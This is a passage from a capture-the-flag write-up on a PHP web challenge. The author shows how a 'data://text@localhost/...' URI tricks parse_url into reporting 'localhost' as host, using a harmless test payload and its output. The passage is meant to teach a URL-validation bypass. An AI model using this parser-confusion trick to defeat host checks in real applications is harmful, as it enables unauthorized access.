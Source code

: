 Hmm... Can we trick the parsed URL's host to be `localhost` via the `@` symbol? Like this:

```php
$url = "data:text@localhost/plain,$base64EncodedPayload";
```

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|14:54:05(HKT)]
└> php test.php
[*] Payload: foobar
[*] URL: data:text@localhost/plain,Zm9vYmFy
[*] Parsed URL:
array(2) {
  ["scheme"]=>
  string(4) "data"
  ["path"]=>
  string(29) "text@localhost/plain,Zm9vYmFy"
}
[*] Final content: foobar
```

Uhh... No?? Oh wait, the `data` URI scheme didn't start with a double slash (`//`).

> [...]**The scheme specific data start with a double slash "//"** to indicate that it complies with the common Internet scheme syntax. - [RFC 1738 section 3.1](https://datatracker.ietf.org/doc/html/rfc1738#section-3.1)

Hmm... Does the `data` URI scheme supports that? In its RFC, it doesn't mention that. However, if we look at [this note in PHP documentation about `data` URI scheme wrapper](https://www.php.net/manual/en/wrappers.data.php#85581), PHP actually supports the `data` URI scheme to start with a double slash:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TCTF-CTF-2024/images/Pasted%20image%2020240805145923.png)

Let's test it!

```php
$url = "data://text@localhost/plain,$base64EncodedPayload";
```

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|14:54:21(HKT)]
└> php test.php
[*] Payload: foobar
[*] URL: data://text@localhost/plain,Zm9vYmFy
[*] Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(15) "/plain,Zm9vYmFy"
}
[*] Final content: foobar
```
